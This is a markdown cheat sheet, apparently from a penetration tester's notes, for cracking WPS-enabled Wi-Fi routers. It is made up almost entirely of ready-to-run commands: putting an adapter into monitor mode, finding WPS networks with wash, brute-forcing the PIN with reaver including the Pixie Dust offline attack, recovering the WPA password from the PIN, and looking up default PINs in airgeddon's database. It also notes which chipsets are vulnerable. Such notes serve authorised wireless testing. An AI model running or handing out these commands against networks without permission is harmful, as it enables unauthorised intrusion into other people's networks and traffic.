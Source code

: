 ## WPS

### Normal setup

```text
sudo systemctl stop NetworkManager
sudo airmon-ng check kill
sudo iw dev
```
#### Create Monitor Mode Device

```text
sudo ip link set wlan0 down
sudo iw dev wlan0 interface add wlan0mon type monitor
sudo ip link set wlan0mon up					            
```

### Check for networks with WPS available
```text
sudo wash -i wlan0mon
```

```text
BSSID               Ch  dBm  WPS  Lck  Vendor    ESSID
--------------------------------------------------------------------------------
AA:BB:CC:XX:YY:ZZ    1  -88  2.0  No   Broadcom  linksys
```

#### For 5GHZ scanning
```text
sudo wash -i wlan0mon -5
```

### Attacks to retrieve the pin

#### Standard attack
```text
sudo reaver  -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vv
```

#### Pixie dust offline attack - (-K 1)
```text
sudo reaver -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vv -K 1
```

### Resolve password from pin
```text
sudo reaver -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vv -p 12345678
```

#### Notes
Success running this attack against Ralink and RealTek chipsets. And very spotty success against Broadcom chipsets
```text
sudo reaver -i {monitor interface} -b {BSSID of router} -c {router channel} -vvv -K 1 -f
```
#### Airgeddon - Known Pins
```text
source /usr/share/airgeddon/known_pins.db
echo ${PINDB["0013F7"]}	#first three parts of the BSSID CODE
echo /usr/share/airgeddon/known_pins.db ${PINDB["0013F7"]} 
grep "0013F7" /usr/share/airgeddon/known_pins.db
```

https://kalitut.com/wifi-attack-with-wps-using-reaver/

https://axcheron.github.io/hacking-wps-using-reaver-and-pixie-dust-attack/
